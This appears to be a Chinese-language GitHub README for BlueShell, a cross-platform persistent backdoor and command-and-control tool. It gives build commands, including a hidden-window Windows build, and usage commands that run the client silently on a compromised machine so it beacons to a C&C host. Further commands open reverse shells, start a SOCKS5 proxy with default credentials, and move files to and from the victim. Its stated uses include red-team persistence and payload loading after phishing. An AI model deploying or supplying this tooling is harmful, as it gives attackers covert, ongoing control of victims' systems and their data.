 BlueShell
===
BlueShell是一个跨平台的持续远控工具，拿下靶机后，根据操作系统版本下载部署对应的bsClient，其会每隔固定时间向指定的C&C地址发起反弹连接尝试，在C&C端运行bsServer即可连接bsClient，从而实现对靶机的持续控制，主要适用场景：
+ 红蓝对抗中的持久化后门或内网代理
+ 社工钓鱼二次加载Payload

目前支持的主要功能有：
+ 循环持续控制
+ 跨平台，支持Linux、Windows、MacOS
+ 交互式Shell反弹（Windows只支持普通反弹Shell）
+ Socks5代理反弹
+ 文件上传、下载
+ TLS通信加密

编译
---

### Linux and MacOS
生成bsClient
```shell script
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w " -o bsClient client.go
```
生成bsServer
```shell script
go get github.com/creack/pty
go get github.com/hashicorp/yamux
go get github.com/djimenez/iconv-go
go get golang.org/x/crypto/ssh/terminal

go build --ldflags "-s -w " -o bsServer server.go
```
### Windows
生成bsClient
```shell script
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w -H=windowsgui" -o bsClient.exe client.go
```

用法
---
### Client
在受控靶机上运行bsClient    
#### Windows靶机：    
默认配置模式启动
```shell script
start /b bsClient.exe
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口,-t指定尝试连接远控的间隔秒数
```shell script
start /b bsClient.exe -h 10.0.0.1 -p 443 -t 10
```
#### Linux and MacOS靶机:    
默认配置模式启动
```shell script
nohup bsClient &
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口
```shell script
nohup bsClient -h 10.0.0.1 -p 443 &
```
### C&C Server
远控端运行bsServer,需要是Linux机器
#### Action:反弹shell
默认启动，远控监听8081端口，执行反弹shell操作
```shell script
./bsServer
```
参数启动，-p指定远控监听443端口，-a指定执行反弹shell操作
```shell script
./bsServer -p 443 -a shell
```
windows靶机的乱码问题解决,-rencode指定靶机的编码类型
```shell script
./bsServer -rencode gb2312
```
#### Action:反弹Socks5代理
默认启动，远控监听8081端口，执行反弹socks操作，socks5的默认监听端口为7777，默认用户名blue，默认密码Blue@2020
```shell script
./bsServer -a socks
```
参数启动，-p指定远控监听443端口，-a指定执行反弹socks操作,-sport指定socks监听的端口为7778，-suser指定socks代理的认证账号，-spass指定socks代理的认证密码
```shell script
./bsServer -p 443 -a socks -sport 7778 -suser socksUser -spass socksPassword
```
#### Action:文件上传下载
上传本地文件到受控靶机，-lpath指定需要上传的本地文件路径，-rdir指定上传到的目录
```shell script
./bsServer -a upload -lpath /tmp/tmp.txt -rdir c:\\
```
从受控靶机下载文件到本地，-rpath指定需要下载的文件地址，-ldir指定存放下载文件的本地路径
```shell script
./bsServer -a upload -rpath c:\\tmp.txt -ldir /tmp
```

参考
---
+ https://github.com/sysdream/hershell
+ https://github.com/creaktive/tsh
